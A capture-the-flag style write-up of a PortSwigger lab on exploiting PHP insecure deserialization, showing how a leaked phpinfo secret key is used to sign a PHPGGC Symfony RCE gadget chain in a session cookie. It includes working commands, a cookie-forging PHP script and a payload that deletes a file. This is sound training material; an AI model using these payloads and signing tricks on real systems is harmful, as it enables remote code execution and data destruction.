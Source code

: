 ```yaml
---
title: "Lab: Exploiting PHP deserialization with a pre-built gadget chain"
published: true
tags: [Web Application Security, Web Security Academy, Labs, Insecure Deserialization, Remote Code Execution, Gadget Chains, PHP, PHPGGC]
image: /blog/assets/supply-chain.png
description: "Lab Description: This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains."
---
```


<br>
![](/blog/assets/supply-chain.png)
<br>
[^1]

<br>
### Lab Link
[Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

<br>
### Lab Description
* * *
<br>
This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization[^2] using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

<br>
### Solutions
* * *
<br>
### Solution 1: My Solution
It is recommended to use Linux or a Unix-based operating system for using pre-built gadget chain tools like PHPGGC for PHP or Ysoserial for Java because of powerful bash command tools that are already in your arsenal or can be downloaded easily. So let's begin.

At first, let's get more information by browsing lab pages, when we log in with `wiener:peter` credentials, we see a session cookie in Burp like this:

```
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22e14415c3060a4b056821d84317015c0d8e63b648%22%7D
```

It is a URL-encoded string, which when decoded in Burp decoder we get this:

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ==","sig_hmac_sha1":"e14415c3060a4b056821d84317015c0d8e63b648"}
```

As you can see, it seems that the token part is signed with hmac_sha1 algorithm. Also the token part in this string is base64-encoded, when decoded it is:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vklolvd6l8l207gs0wufk8ldvmw54evp";}
```

It is a serialized PHP object. So we can test if there is any insecure deserialization vulnerability that we can exploit, Since it is a signed session cookie, if we want to edit this serialized object, we need the key for the hash algorithm to sign our payload value so we need to search for clues of the key used. When surfing lab pages, in the source of the website we can find this commented line:

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

so we use this link to open the `phpinfo` page, in this page we can find the secret key:

![](/blog/assets/web-security-academy-php-deserialization-secret-key.png)

We test it to make sure this is the key that is used for signing the session cookie.

With this command you can sign a value:

```bash
echo -n "value" | openssl sha1 -hmac "key"
```

We can test this:

```bash
echo -n "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ==" | openssl sha1 -hmac "g8ffja92adxkuz3681mg16suuoo3sbxd"
```

When we run this code we get this signed value:
`e14415c3060a4b056821d84317015c0d8e63b648` and check it with the "sig_hmac_sha1" value in the decoded session cookie above and we see the values are matched, So we can use this secret key to hash our own serialized payload.

Also in the `/cgi-bin/phpinfo.php` page above we can see that the website is using Zend Engine:

![](/blog/assets/web-security-academy-php-deserialization-zend-engine.png)

Please pay attention not to confuse Zend engine with Zend Framework so we need to find out more clues about what PHP framework is used so that we can create an appropriate payload for it.

When the session cookie is manipulated in Burp repeater, an error page is returned in response and we get our clue in the error description:

```
Internal Server Error: Symfony Version: 4.3.6
```

So the website is using Symfony framework for PHP. With all this information, we can create our final payload, we use PHPGGC tool to build our payload, first download this tool from its Github page[^3].

Use this command to find related payloads for Symfony framework:

```bash
./phpggc -l symfony
```

We get this list:

![](/blog/assets/web-security-academy-php-deserialization-phpggc.png)

We start from the first RCE command in the list and test to see which one is working.

We use the secret key found in our bash command, This bash command is created to do multiple tasks and create a final payload:

```bash
command=$(./phpggc -f -b Symfony/RCE1 "rm /home/carlos/morale.txt");x=$( echo -n $command);y=$(echo -n $x | openssl sha1 -hmac "g8ffja92adxkuz3681mg16suuoo3sbxd" | cut -c 14-);urlencode '{"token":"'$x'","sig_hmac_sha1":"'$y'"}'
```

You can substitute your desired PHPGGC command in the above code and also your own secret key that you've found and get the resulting payload in the correct final format.

In the above command:

`-n` in `echo` command is to remove the trailing newline characters.

`-b` in `phpggc` is to base64 encode the gadget chain.

`-f` in `phpggc` is to fast destruct. Here is the description of this flag from PHPGGC Github page:

"PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. I'd recommend using it for every `__destruct` vector, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first."

So it is recommended to use this flag.

`cut -c 14-` command cuts the resulting string because the result of the signed value of `openssl` command is something like:

```bash
SHA1(stdin)= e14415c3060a4b056821d84317015c0d8e63b648
```

And we should begin at character 14 and remove the additional beginning characters of `SHA1(stdin)= `

So we get this final payload from the above command:

```
%7B%22token%22%3A%22YToyOntpOjc7Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO31pOjc7aTo3O30%3D%22%2C%22sig_hmac_sha1%22%3A%22e6496d1876437637e6aca6a408cc1b7281bec1fd%22%7D
```

We replace this string with the session cookie in Burp repeater and Carlos's `morale.txt` file is deleted and the lab is solved!

<br>
### Solution 2: Web Security Academy's Solution
1. Log in and send a request containing your session cookie to Burp Repeater. Highlight the cookie and look at the **Inspector** panel.

2. Notice that the cookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash.

3. Copy the decoded cookie from the Inspector and paste it into Decoder.

4. In Decoder, highlight the token and then select **Decode as > Base64**. Notice that the token is actually a serialized PHP object.

5. In Burp Repeater, observe that if you try sending a request with a modified cookie, an exception is raised because the digital signature no longer matches. However, you should notice that:

  - A developer comment discloses the location of a debug file at `/cgi-bin/phpinfo.php`.
  - The error message reveals that the website is using the Symfony 4.3.6 framework.

{:start="6"}
6. Request the `/cgi-bin/phpinfo.php` file in Burp Repeater and observe that it leaks some key information about the website, including the `SECRET_KEY` environment variable. Save this key; you'll need it to sign your exploit later.

7. Download the "PHPGGC" tool and execute the following command:

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```

This will generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony to delete Carlos's `morale.txt` file.

{:start="8"}
8. You now need to construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained earlier. You can use the following PHP script to do this. Before running the script, you just need to make the following changes:

  - Assign the object you generated in PHPGGC to the `$object` variable.
  - Assign the secret key that you copied from the `phpinfo.php` file to the `$secretKey` variable.

```php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

This will output a valid, signed cookie to the console.

{:start="9"}
9. In Burp Repeater, replace your session cookie with the malicious one you just created, then send the request to solve the lab.

<br>
### _External Links_
* * *
* #### [Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

<br>
### _References_
* * *
[^1]: Icon made by [Freepik](https://www.flaticon.com/authors/freepik) from [www.flaticon.com](https://www.flaticon.com/)
[^2]: [Insecure deserialization \| Web Security Academy](https://portswigger.net/web-security/deserialization)
[^3]: [PHPGGC: PHP Generic Gadget Chains](https://github.com/ambionics/phpggc)
